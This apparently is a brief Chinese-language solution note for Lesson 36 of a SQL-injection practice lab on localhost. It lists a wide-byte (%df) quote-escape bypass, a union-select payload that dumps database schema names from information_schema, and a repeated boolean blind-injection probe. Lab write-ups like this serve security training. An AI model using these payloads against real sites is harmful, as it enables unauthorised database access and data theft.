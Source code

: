# Lesson-36
```
明注-,-Bool盲注-,-宽字节绕过
```

明注 : 
```
http://127.0.0.1/Less-36/?id=0%df%27%20union%20select%201,1,group_concat(schema_name)%20from%20information_schema.schemata--+
```
盲注 : 
```
http://127.0.0.1/Less-36/?id=0%df%27||1--+
http://127.0.0.1/Less-36/?id=0%df%27||1--+
```
